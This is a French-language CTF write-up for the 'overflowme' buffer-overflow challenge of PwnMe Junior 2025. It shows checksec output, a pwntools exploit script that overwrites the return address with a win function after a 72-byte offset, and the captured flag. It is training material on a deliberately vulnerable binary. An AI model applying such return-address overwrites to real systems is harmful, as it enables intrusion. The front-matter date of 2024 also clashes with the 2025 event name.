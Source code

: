```yaml
---
title: "PwnMe Junior 2025 - overflowme WriteUp"
date: 2024-04-14
description: "WriteUp du challenge overflowme du CTF PwnMe Junior 2025"
tags: ["pwn", "buffer-overflow", "ctf", "pwnme"]
---
```


# PwnMe Junior 2025 - overflowme WriteUp

## Description du challenge
Le challenge overflowme est un exercice de buffer overflow sur un binaire 64 bits. Le programme attend une entrée utilisateur et contient une vulnérabilité qui permet d'écraser l'adresse de retour.

## Analyse du binaire

### Vérification des protections
```bash
$ checksec overflowme
[*] '/home/synapse/pwnme-junior-2025/pwn/overflowme/overflowme'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## Exploitation

### Plan d'attaque
1. Envoyer "5" comme première entrée
2. Overflow du buffer avec un offset de 72 bytes
3. Écraser l'adresse de retour avec l'adresse de la fonction win (0x401417)

### Script d'exploitation
```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']

def main():
    p = remote("127.0.0.1", 1337)
    
    p.sendline(b'5')

    offset = 72  
    payload = b'A' * offset
    payload += p64(0x401417)  
    
    # Envoi du payload
    p.sendline(payload)
    p.interactive()

if __name__ == '__main__':
    main()
```

```
PWNME{JUNIOR_OVERFLOW_MASTER}
```

Ce challenge était un exercice classique de buffer overflow. Les points clés étaient :
- Identification de l'offset correct (72 bytes)
- Utilisation de l'adresse correcte de la fonction win (0x401417)
- Configuration correcte de la connexion remote sur le port 1337 